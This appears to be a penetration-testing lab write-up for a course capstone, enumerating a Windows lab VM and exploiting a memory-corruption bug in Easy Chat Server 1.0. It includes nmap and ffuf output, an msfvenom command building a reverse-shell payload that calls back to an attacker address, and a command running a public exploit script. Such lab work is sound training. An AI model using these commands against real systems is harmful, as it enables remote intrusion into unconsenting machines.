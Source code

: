IP: 
```
192.168.246.213
```

# Objective
**Capstone Exercise**: Enumerate the Module Exercise VM 3 and find the application that has a memory corruption vulnerability. Then find the related public exploit and fix it as illustrated in this Module.
# nmap
```
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
20000/tcp open  http          Easy Chat Server httpd 1.0
|_http-title: Easy Chat Server
|_http-server-header: Easy Chat Server/1.0
| http-methods: 
|_  Supported Methods: GET
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 11|10 (88%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:freebsd:freebsd:6.2 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows 11 21H2 (88%), FreeBSD 6.2-RELEASE (85%), Microsoft Windows 10 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.006 days (since Sat Dec 30 12:47:45 2023)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-12-30T01:56:00
|_  start_date: N/A

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   274.59 ms 192.168.45.1
2   274.55 ms 192.168.45.254
3   274.60 ms 192.168.251.1
4   274.65 ms 192.168.246.213
```

# ffuf
```
$ ffuf -u "http://192.168.246.213:20000/FUZZ" -w /usr/share/wordlists/dirb/common.txt -r 

                        [Status: 200, Size: 6822, Words: 653, Lines: 163, Duration: 276ms]
```

# Exploit
Build exploit
```sh
$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.45.216 lport=7777 -f python -b '\x00\x20' -v shellcode
```

Run exploit
```
$ python3 ./50999.py 192.168.45.216 7777
```